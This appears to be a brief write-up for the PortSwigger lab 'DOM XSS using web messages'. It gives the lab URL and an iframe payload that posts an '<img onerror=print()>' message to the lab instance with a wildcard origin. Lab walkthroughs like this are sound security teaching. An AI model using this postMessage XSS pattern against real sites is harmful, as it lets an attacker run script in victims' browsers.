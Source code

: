 # DOM XSS using web messages
Lab URL :- 
`https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages`

![image](https://user-images.githubusercontent.com/60841283/153745543-5af9d7cb-9b39-479e-ba55-e04057a96b46.png)

Payload in exploit server (in Body section) :-
```html
<iframe src="https://ac301f9b1e366bb9c074daf400b800c0.web-security-academy.net/#" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')"></iframe>
```

![image](https://user-images.githubusercontent.com/60841283/153745467-9cb2d3d7-44e0-4538-b303-1c0ae491d21d.png)
